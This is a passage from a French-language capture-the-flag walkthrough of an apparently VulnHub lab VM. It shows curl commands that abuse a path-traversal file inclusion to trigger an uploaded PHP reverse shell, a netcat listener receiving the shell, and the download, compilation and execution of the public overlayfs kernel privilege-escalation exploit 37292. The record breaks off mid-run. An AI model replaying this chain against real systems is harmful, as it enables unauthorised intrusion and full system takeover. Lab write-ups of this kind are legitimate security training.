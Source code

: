 ```console
root@blinils:~# curl http://192.168.56.107/index.php --data "un=biLLu&ps=hEx_it&login=let's+login" -v --silent 2>&1 | grep Set-Cookie
< Set-Cookie: PHPSESSID=u35or2578hvdepjgj0ftsmkgj6; path=/

root@blinils:~# curl http://192.168.56.107/panel.php --data "continue=1&load=../../../../../../../../var/www/uploaded_images/php-rshell.png" --cookie "PHPSESSID=u35or2578hvdepjgj0ftsmkgj6;"
```

Et à côté, dans un autre terminal, une connexion entrante finit par arriver sur le port 12345.

```console
root@blinils:~# nc -lvp 12345
listening on [any] 12345 ...
192.168.56.107: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.107] 50647
Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
 22:41:42 up  8:50,  0 users,  load average: 0.03, 0.04, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

On applique ensuite les conseils de l'article [_Fixing a raw shell with Python and stty_](https://nullsec.us/fixing-a-raw-shell/) posté sur le site NullSecurity (@BeanBagKing), afin d'obtenir un shell tout beau tout propre.

```console
www-data@indishell:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@indishell:/$ uname -r -v
3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014
```

## Élévation de privilèges avec _'overlayfs' Local Privilege Escalation_

La version du noyau Linux est connue depuis le début du _walkthrough_ grâce à la page ```in.php``` et sa méthode ```phpinfo()```. Depuis 2014, des codes d'exploitation auront sûrement été publiés sur Internet pour cette version 3.13 du noyau Linux.

```console
root@blinils:~# curl http://192.168.56.107/in.php -v --silent 2>&1 | grep System
<tr><td class="e">System </td><td class="v">Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 </td></tr>
```

En l'occurrence [la VM Droopy](https://www.vulnhub.com/entry/droopy-v02,143/), dont la solution se trouve également [sur ce dépôt Github](/CTF-VulnLabs/droopy), proposait également un noyau Linux 3.13 et l'exploit [_'overlayfs' Local Privilege Escalation_](https://www.exploit-db.com/exploits/37292) avait particulièrement bien fonctionné. Bis repetita ?

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/37292.c .
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...


www-data@indishell:/tmp$ wget -q http://192.168.56.102:8000/37292.c
www-data@indishell:/tmp$ gcc 37292.c -o 37292
www-data@indishell:/tmp$ chmod +x 37292
www-data@indishell:/tmp$ ./37292
spawning threads
mount #1
mount #2
```